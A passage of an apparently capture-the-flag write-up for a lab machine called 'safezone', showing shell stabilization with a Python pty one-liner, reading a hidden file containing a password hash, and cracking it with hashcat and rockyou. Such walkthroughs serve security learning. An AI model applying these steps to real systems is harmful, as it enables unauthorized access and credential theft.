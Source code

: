## Privilege Escalation to files

Once connected, I used Python to stabilize my shell. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm

CTRL-z
stty raw -echo;fg
```

And then I started looking around on the server. The home folder for the user files was readable. I contained the password hint I had found earlier and password hash for the user files. 

```bash
www-data@safezone:/home$ ls -la /home/files/
total 40
drwxrwxrwx 5 files files 4096 Mar 29 04:10  .
drwxr-xr-x 4 root  root  4096 Jan 29 12:30  ..
-rw------- 1 files files    0 Mar 29 04:10  .bash_history
-rw-r--r-- 1 files files  220 Jan 29 12:30  .bash_logout
-rw-r--r-- 1 files files 3771 Jan 29 12:30  .bashrc
drwx------ 2 files files 4096 Jan 29 20:44  .cache
drwx------ 3 files files 4096 Jan 29 20:44  .gnupg
drwxrwxr-x 3 files files 4096 Jan 30 09:30  .local
-rw-r--r-- 1 files files  807 Jan 29 12:30  .profile
-rw-r--r-- 1 root  root   105 Jan 29 20:38 '.something#fake_can@be^here'
-rwxrwxrwx 1 root  root   112 Jan 29 10:24  pass.txt

www-data@safezone:/home/files$ cat pass.txt 
Admin password hint :-

                admin__admin

                                " __ means two numbers are there , this hint is enough I think :) "


www-data@safezone:/home$ cat /home/files/.something#fake_can\@be\^here 
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

I launched hashcat to try to crack the password.

```bash
$ hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...     
                                                          
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

...

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.:REDACTED
                                                  
Session..........: hashcat
```